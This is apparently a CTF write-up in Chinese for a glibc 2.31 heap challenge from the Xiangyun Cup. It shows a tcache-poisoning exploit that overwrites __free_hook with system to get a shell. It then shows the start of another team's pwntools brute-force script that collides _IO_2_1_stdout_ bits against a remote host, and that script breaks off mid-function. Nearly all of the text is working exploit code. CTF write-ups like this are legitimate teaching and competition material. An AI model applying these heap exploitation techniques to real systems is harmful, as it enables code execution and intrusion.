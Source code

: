 ```python
free(0)
free(1)  # tcache(0x30) cnt=2: c1, c0
edit(1, p64(free_hook))      # tcache(0x30) cnt=2: c1, &__free_hook
add(1, 0x20, "/bin/sh\x00")  # tcache(0x30) cnt=1: &__free_hook # c0:/bin/sh
add(0, 0x20, p64(system_addr))  # get &__free_hook and cover __free_hook to system
free(1)  # trriger system("/bin/sh\x00")

dd()  # debug
p.interactive()

```





# Brute force exp: redbud wh original exp

redbud wh师傅给的原始exp，祥云杯第二名，Jeopardy模式第一名(1200points)。

- `context.terminal`根据自己的环境注释掉或改掉
- 没有调用talk，暴力碰撞`&_IO_2_1_stdout_`的第12-15bit(最低第4个16进制数)。即程序中的addr`16a0`中，`6a0`对应`&_IO_2_1_stdout_`的低12bit，1是和开启ASLR的远端来碰撞

```python
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'amd64'
context.log_level = "debug"
IP = "172.20.2.7"
PORT = 26351
DEBUG = 0

def pwn():
    if DEBUG:
        p = process("./pwn", env={"LD_PRELOAD":"/home/ctf/2.31-0ubuntu9.2_amd64/libc-2.31.so"})
        # p = process("./pwn")
        base = p.libs()[p._cwd+p.argv[0].strip('.')]
        # libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
        libc = ELF("/home/ctf/2.31-0ubuntu9.2_amd64/libc-2.31.so")

    else:
        p = remote(IP, PORT)
        libc = ELF("./libc-2.31.so")

    ru = lambda x : p.recvuntil(x)
    se = lambda x : p.send(x)
    rl = lambda : p.recvline()
    sl = lambda x : p.sendline(x)
    rv = lambda x : p.recv(x)
    sa = lambda a,b : p.sendafter(a,b)
    sla = lambda a,b : p.sendlineafter(a, b)
    l64 = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))


    def debug(cmd=""):
        gdb.attach(p, cmd)

    def cmd(idx):
        sla("Todo:\n", str(idx))

    def add(idx, size, content):
        cmd(1)
        sla("\n", str(idx))
        sla("\n", str(size))
```